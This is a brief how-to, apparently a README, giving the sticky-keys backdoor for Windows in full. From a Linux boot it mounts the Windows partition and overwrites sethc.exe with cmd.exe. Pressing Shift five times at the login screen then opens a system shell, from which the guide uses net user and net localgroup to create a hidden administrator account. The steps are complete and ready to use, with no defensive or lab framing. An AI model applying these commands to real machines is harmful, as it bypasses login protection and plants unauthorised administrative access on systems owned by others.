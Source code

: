 1. Mount the windows file system - mount [storage partition] [path]
 	mount /dev/sda2 /mnt
2. Navigate to the path containing the sethc.exe and cmd.exe - cd /mnt/windows/system32
3. Override the sticky keys file with the command line file - cp cmd.exe sethc.exe
4. Remove the optical drive attachment
5. Start the machine and trigger the sticky keys process by pressing shift 5 times
6. Create user with administrative privileges:
	net user [username] [password] /add
	net localgroup administrators [username] /add